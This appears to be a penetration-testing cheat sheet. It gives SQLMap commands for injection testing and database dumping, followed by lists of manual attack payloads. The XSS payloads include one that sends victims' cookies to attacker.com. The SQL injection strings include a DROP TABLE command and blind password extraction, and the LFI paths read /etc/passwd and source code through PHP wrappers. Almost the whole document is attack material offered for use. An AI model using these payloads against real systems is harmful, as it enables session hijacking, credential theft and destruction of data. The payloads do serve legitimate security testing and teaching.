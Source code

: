 ### Tool Name: SQLMap
**Description:** Automatic SQL injection and database takeover tool.

**Example Usage:**
```bash
# Basic SQL injection test
sqlmap -u "http://target.com/page.php?id=1"

# Test POST parameters
sqlmap -u "http://target.com/login.php" --data="username=admin&password=test"

# Dump database
sqlmap -u "http://target.com/page.php?id=1" --dbs --dump
```

## All Possible Payloads for Manual Approach

### Cross-Site Scripting (XSS) Payloads
```html
<!-- Basic XSS -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

<!-- Advanced XSS -->
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
<iframe src="javascript:alert('XSS')"></iframe>
```

### SQL Injection Payloads
```sql
-- Basic SQL injection
' OR '1'='1
' OR 1=1--
' UNION SELECT null,null,null--

-- Advanced SQL injection
'; DROP TABLE users;--
' OR (SELECT COUNT(*) FROM users) > 0--
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--
```

### Local File Inclusion (LFI) Payloads
```bash
# Basic LFI
http://target.com/page.php?file=../../../../etc/passwd
http://target.com/page.php?file=..\..\..\..\windows\system32\drivers\etc\hosts

# PHP wrappers
http://target.com/page.php?file=php://filter/read=convert.base64-encode/resource=index.php
http://target.com/page.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
```
